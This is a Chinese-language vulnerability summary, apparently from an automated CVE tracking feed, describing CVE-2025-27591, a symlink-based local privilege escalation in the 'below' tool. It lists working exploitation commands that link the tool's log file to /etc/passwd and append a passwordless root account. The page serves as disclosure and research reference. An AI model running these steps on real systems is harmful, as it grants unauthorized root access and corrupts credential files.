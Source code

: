 ## CVE-2025-27591 - Below Privilege Escalation

**漏洞编号:** CVE-2025-27591

**漏洞类型:** 权限提升

**影响应用:** Below

**危害等级:** 高危，本地权限提升至root

**影响版本:** < 0.9.0

**利用条件:** 本地用户访问权限

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2025-27591是一个`below`工具中存在的本地权限提升漏洞，由于其日志机制中存在不安全的符号链接处理。攻击者可以通过预先创建一个指向敏感文件（例如`/etc/passwd`）的符号链接，当漏洞进程在`sudo`下运行时，可以注入任意内容，从而获得提升的权限。

**有效性:** 提供的POC代码有效。它演示了如何利用不安全的日志处理创建符号链接，并将恶意条目附加到`/etc/passwd`中，从而创建一个新的root权限用户。

**投毒风险:** 检查POC代码内容，未发现明显的投毒代码。该代码直接演示了漏洞利用过程，旨在修改`/etc/passwd`文件。虽然修改`/etc/passwd`本身具有破坏性，但这属于漏洞利用的正常行为，而非隐藏的恶意代码。投毒风险评估为0%。

**利用方式:**

1.  检查`/var/log/below/`目录是否存在。
2.  删除现有的日志文件，并创建一个指向`/etc/passwd`的恶意符号链接：`ln -s /etc/passwd /var/log/below/error_root.log`。
3.  准备一个恶意的passwd条目：`echo 'attacker::0:0:attacker:/root:/bin/bash' > /tmp/attacker`。
4.  使用`sudo`触发漏洞行为：`sudo /usr/bin/below record`。这将导致`below`尝试写入日志，由于符号链接的存在，它会将数据写入`/etc/passwd`。
5.  切换到新创建的root权限用户：`su attacker`。

**项目地址:** [krn966/CVE-2025-27591](https://github.com/krn966/CVE-2025-27591)

**漏洞详情:** [CVE-2025-27591](https://nvd.nist.gov/vuln/detail/CVE-2025-27591)
